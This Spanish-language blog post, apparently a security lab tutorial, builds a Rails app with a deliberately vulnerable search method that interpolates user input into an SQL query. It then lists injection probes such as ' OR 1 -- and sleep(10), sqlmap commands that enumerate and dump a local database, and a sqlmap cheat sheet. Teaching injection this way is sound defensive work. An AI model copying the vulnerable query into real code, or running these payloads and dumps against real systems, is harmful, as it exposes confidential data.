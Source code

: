 ```yaml
---
layout: post
title:  "Rails 5 SQL Inyection On Rails"
date:   2016-04-26 00:37:19 -0300
categories: jekyll update
---
```

El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.

A continuación vamos a crear una aplicación en Ruby on Rails:

```
rails new My-Application
```
Para este ejemplo crearemos un modelo para el usuario con un atributo name:string

```
rails g model user name:string
```

Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
{% highlight ruby %}
def search(params)
 User.where("name LIKE '#{params}'")
end
{% endhighlight %}

Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:

```
localhost:3000/search/1 and 1 = 1 --
localhost:3000/search/1 and sleep(10)
sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
```

Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
```
SELECT * FROM users WHERE name = '' OR 1 --'
```

Explotamos vulnerabilidad

```
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs -D database --table
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables 
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
```

Ayuda SQLMAP.

```
/sqlmap.py -u URL --dbs/ 
/sqlmap.py -u URL -D --table    
/sqlmap.py -u URL -D -T -columns
/sqlmap.py -u URL -D -T -C --dump


-D:Base de datos
-T:Tablas
-C:Columnas
-U:Usurio

--table 
--columns
--dump
```